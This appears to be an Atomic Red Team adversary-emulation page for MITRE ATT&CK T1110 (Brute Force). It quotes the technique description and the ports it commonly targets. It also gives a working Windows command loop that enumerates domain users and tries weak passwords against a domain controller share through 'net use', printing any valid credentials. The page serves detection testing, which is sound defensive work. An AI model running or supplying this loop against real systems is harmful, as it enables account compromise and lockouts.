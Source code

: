 # T1110 - Brute Force
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)
<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.

[Credential Dumping](https://attack.mitre.org/techniques/T1003) is used to obtain password hashes, this may only get an adversary so far when [Pass the Hash](https://attack.mitre.org/techniques/T1075) is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table to crack hashes. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)

Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

A related technique called password spraying uses one password (e.g. 'Password01'), or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)

Typically, management services over commonly used ports are used when password spraying. Commonly targeted services include the following:

* SSH (22/TCP)
* Telnet (23/TCP)
* FTP (21/TCP)
* NetBIOS / SMB / Samba (139/TCP & 445/TCP)
* LDAP (389/TCP)
* Kerberos (88/TCP)
* RDP / Terminal Services (3389/TCP)
* HTTP/HTTP Management Services (80/TCP & 443/TCP)
* MSSQL (1433/TCP)
* Oracle (1521/TCP)
* MySQL (3306/TCP)
* VNC (5900/TCP)


In default environments, LDAP and Kerberos connection attempts are less likely to trigger events over SMB, which creates Windows "logon failure" event ID 4625.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials](#atomic-test-1---brute-force-credentials)


<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`! ```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```
<br/>

